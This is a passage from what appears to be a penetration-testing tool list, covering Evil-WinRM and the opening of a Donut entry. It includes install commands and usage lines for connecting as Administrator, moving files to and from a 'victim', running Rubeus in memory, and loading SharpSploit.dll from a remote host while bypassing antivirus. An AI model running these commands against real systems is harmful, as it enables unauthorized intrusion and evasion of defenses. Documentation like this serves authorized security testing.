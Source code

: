 Some features include:

Loading in memory Powershell scripts
Loading in memory dll files bypassing some AVs
Loading x64 payloads
Pass-the-hash support
Uploading and downloading local and remote files
Install: (Git)

sudo gem install winrm winrm-fs stringio logger fileutils
git clone https://github.com/Hackplayers/evil-winrm.git
cd evil-winrm
Install: (Ruby gem)

gem install evil-winrm
Alternative installation instructions can be found here.

Usage:

# Connect to 192.168.1.100 as Administrator with custom exe/ps1 download folder locations
evil-winrm  -i 192.168.1.100 -u Administrator -p 'MySuperSecr3tPass123!' -s '/home/foo/ps1_scripts/' -e '/home/foo/exe_files/'

# Upload local files to victim
upload local_filename
upload local_filename destination_filename

# Download remote files to local machine
download remote_filename
download remote_filename destination_filename

# Execute .Net assembly into victim memory
Invoke-Binary /opt/csharp/Rubeus.exe

# Load DLL library into victim memory
Dll-Loader -http http://10.10.10.10/SharpSploit.dll
Full usage documentation can be found here.

image

Image used from https://korbinian-spielvogel.de/posts/heist-writeup/

🔙Donut
A tool for in-memory execution of VBScript, JScript, EXE, DLL files and dotNET assemblies. It can be used to load and run custom payloads on target systems without the need to drop files to disk.

Install: (Windows)
